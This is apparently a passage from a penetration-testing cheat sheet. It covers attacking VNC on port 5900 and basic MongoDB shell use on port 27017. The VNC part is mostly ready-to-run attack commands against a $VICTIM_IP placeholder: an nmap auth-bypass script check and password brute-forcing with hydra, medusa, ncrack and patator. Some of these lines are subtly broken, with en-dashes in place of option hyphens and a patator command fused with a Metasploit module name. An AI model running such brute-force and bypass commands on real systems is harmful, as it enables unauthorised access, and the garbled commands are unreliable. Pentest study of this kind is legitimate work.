 

## 4.18. 5900 - VNC

VNC is a graphical remote desktop sharing system. Other ports involved in it
are: 5800,5801,5900,5901

```sh
# nmap scan
nmap -v -n -sV --script vnc-info,realvnc-auth-bypass,vnc-title -oA nmap/vnc -p 5900 $VICTIM_IP

# connect ('-passwd passwd.txt' to use password file)
vncviewer $VICTIM_IP

# bruteforcing
hydra -V -f -L user.txt –P pass.txt -s PORT vnc://$VICTIM_IP
medusa -h $VICTIM_IP –u root -P pass.txt –M vnc
ncrack -V --user root -P pass.txt $VICTIM_IP:PORT
patator vnc_login host=$VICTIM_IP password=FILE0 0=pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
```

## 4.19. 27017 - MongoDB

MongoDB is a common open-source NoSQL database. It's service runs on 27017 by
default.

Compared to SQL databases:
- Instead of tables, it has *collections*
- Instead of rows, it has *documents*
- Instead of columns, it has *fields*

Data is stored using [BSON](https://bsonspec.org/), which is a binary-serialized form of JSON.

```sql
# starting mongo app, connecting to database server
mongosh     # connect to localhost:27017, no creds
mongosh -u <user> -p <password>
mongosh hostname:port
mongosh --host <host> --port <port>

# show list of databases
show databases;
# connect to database named "admin"
use admin;
# list names of collections (tables) in connected database
db.getCollectionNames();
# create new collection (table) called "users"
db.createCollection("users")
# create new document (row) in users collection:
db.users.insert({id:"1", username: "derp", email: "derp@derp.com", password: "herpaderp"})
# show all documents (rows) in the users collection:
db.users.find()
# get all documents matching search criteria
db.users.find({id: {$gt: 5}})
# get first matching user document
db.users.findOne({id: '1'})
# change fields in a users document
db.users.update({id:"1"}, {$set: {username: "bubba"}});
# delete a document (by id)
db.users.remove({'id':'1'})
# drop the users collection (delete everything)
db.users.drop()
```
